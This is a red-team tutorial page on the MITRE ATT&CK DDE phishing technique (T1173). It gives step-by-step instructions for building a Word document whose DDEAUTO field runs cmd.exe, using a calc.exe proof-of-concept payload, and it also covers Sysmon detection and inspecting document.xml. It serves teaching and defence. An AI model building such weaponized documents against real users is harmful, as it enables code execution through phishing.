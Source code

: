 ```yaml
---
description: Dynamic Data Exchange code - executing code in Microsoft Office documents.
---
```


# T1173: Phishing - DDE

## Weaponization

Open a new MS Word Document and insert a field:

![](../.gitbook/assets/dde-insert-field.png)

It will add an `!Unexpected End of Formula`to the document, that is expected. Right click it &gt; Toggle Field Codes:

![](../.gitbook/assets/dde-toggle-code.png)

Toggle Field Codes will give this:

![](../.gitbook/assets/dde-merge.png)

Replace `= \* MERGEFORMAT` with payload and save the doc:

```bash
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" 
```

to get this:

![](../.gitbook/assets/dde-payload.png)

{% file src="../.gitbook/assets/evil.docx" caption="DDE: evil.docx" %}

## Execution

Launch the evil .docx by double-clicking it and accepting the 2 prompts and watch the calc get spawned:

![](../.gitbook/assets/dde-prompt1.png)

![](../.gitbook/assets/dde-prompt2.png)

## Observations

![](../.gitbook/assets/dde-procexp.png)

Sysmon logs can help spot suspicious processes and/or network connections being initiated by Office applications:

![3rd and 4th columns respectively: PID and PPID](../.gitbook/assets/dde-sysmon.png)

## Inspection

How can we inspect .docx \(same for .xlsx\) files? Since they are essentially .zip archives, we can rename the .docx file to .zip and simply extract the archive for further inspection. 

The file we are interested in is the `document.xml` \(trimmed for brevity below\). Note how line 4 allows us inspecting the DDE payload:

{% code-tabs %}
{% code-tabs-item title="document.xml" %}
```markup
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:wpc="http://schemas.microsoft.com/office/word/2010/wordprocessingCanvas" xmlns:cx="http://schemas.microsoft.com/office/drawing/2014/chartex" xmlns:cx1="http://schemas.microsoft.com/office/drawing/2015/9/8/chartex" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:o="urn:schemas-microsoft-com:office:office" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:m="http://schemas.openxmlformats.org/officeDocument/2006/math" xmlns:v="urn:schemas-microsoft-com:vml" xmlns:wp14="http://schemas.microsoft.com/office/word/2010/wordprocessingDrawing" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:w10="urn:schemas-microsoft-com:office:word" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" xmlns:wpg="http://schemas.microsoft.com/office/word/2010/wordprocessingGroup" xmlns:wpi="http://schemas.microsoft.com/office/word/2010/wordprocessingInk" xmlns:wne="http://schemas.microsoft.com/office/word/2006/wordml" xmlns:wps="http://schemas.microsoft.com/office/word/2010/wordprocessingShape" mc:Ignorable="w14 w15 w16se wp14">
<...snip...>
      <w:instrText>DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"</w:instrText>
<...snip...>
</w:document>

```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1173\",\"type\":\"link\",\"title\":\"Dynamic Data Exchange - ATT&CK for Enterprise\"}" %}





